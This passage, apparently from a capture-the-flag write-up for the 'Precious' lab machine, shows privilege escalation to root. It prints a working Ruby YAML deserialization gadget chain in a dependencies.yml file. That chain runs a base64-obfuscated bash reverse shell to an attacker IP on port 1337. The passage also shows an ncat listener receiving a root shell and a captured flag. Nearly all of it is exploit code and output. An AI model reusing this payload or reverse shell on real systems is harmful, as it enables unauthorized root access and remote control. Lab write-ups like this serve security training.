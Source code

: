```bash
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS8xMzM3IDA+JjE= | base64 -d | bash
         method_id: :resolve
```

Next, we need to open a listener:

```bash
---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.11.189:35420.
root@precious:/tmp# cat /root/root.txt
cat /root/root.txt
2b84d43041671a48ac9b4f53c774ec7e
```

![](machine_pwned.png){: width="75%" .normal}